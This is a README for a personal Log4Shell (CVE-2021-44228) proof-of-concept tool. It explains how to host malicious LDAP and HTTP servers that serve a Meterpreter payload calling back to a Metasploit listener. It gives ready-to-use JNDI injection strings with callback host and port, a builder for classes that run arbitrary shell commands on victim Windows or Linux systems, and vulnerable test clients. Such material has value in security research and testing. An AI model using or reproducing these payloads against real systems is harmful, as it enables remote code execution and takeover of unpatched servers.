 # l4s_poc
Log4Shell (Cve-2021-44228) Proof Of Concept

This is a personal project that runs a simple POC that will host an LDAP
server and an HTTP server for the Log4Shell exploit.  

## Server
The run_servers.py will setup a stripped down meterpreter client that will call
back to the Metasploit instance passed into the ldap request.  **This will run
the meterpreter instance in a thread in the original process that was affected
by the Log4Shell exploit.**

The LDAP server is written in Java and the HTTP server is hosted in python and
will serve from a newly created wwwroot directory.  This does require java,
javac and mvn to build the exploits, and host the LDAP server.  I used Java 8.

Python3 is also required.

#### to get started
run: python3 run_servers.py <your_ip_address> <the_http_port> [ldap_port]

Then pass the jndi string to a vulnerable client to log i.e:
if your host was 10.20.30.40 and your metasploit instance was 20.30.40.50 
listening on port 4444 it would look like this : 
'${jndi:ldap://10.20.30.40:1389/#MM:20.30.40.50:4444}'

#### Building executable commands
You can build classes that will launch executable on the source system.
You can have different commands for windows or linux based systems.
For instance to create a class called TestCmd that will launch a calculator
on Windows systems and Firefox on linux systems run :
**python3 build_cmd.py TestCmd -w "Calc.exe" -l "firefox"**

You can have multiple pre built classes.  If you do not specify a command 
for the target os then nothing is executed.  Note these commands are run 
as CMD \c "your command" on windows and /bin/sh -c "your command" on linux.

To trigger the above command use the name of the class you created i.e : 
'${jndi:ldap://10.20.30.40:1389/#TestCmd'

The Payload.java file is the full Meterpreter file that is setup to run as a
thread in the calling process that had the log4shell issue.  This needs to be 
manuallyy compiled and moved to the wwwroot dir.  Additionally you need to have
the metasploit.dat file setup with the properties you need.

## Clients
The clients directory has 2 clients that can be executed.  One is a simple command
line program that will write an error log for whatever the 1st param passed in is.

The other is a basic web server that will write an error log using the log_me
header information.  Note this should be run in an isolated controlled env.

#### To build the clients :
navigate to the clients dir and run  ./build_clients.sh

#### To execute the webserver : 
from the clients dir run : java -cp target/l4sclients-1.0-SNAPSHOT-all.jar Log4jWebServer [Port_number]

#### To execute the cmd line : 
from the clients dir run : java -cp target/l4sclients-1.0-SNAPSHOT-all.jar Log4jCmdLine '${jndi:ldap://127.0.0.1:1389/#MM:127.0.0.1:4444}'



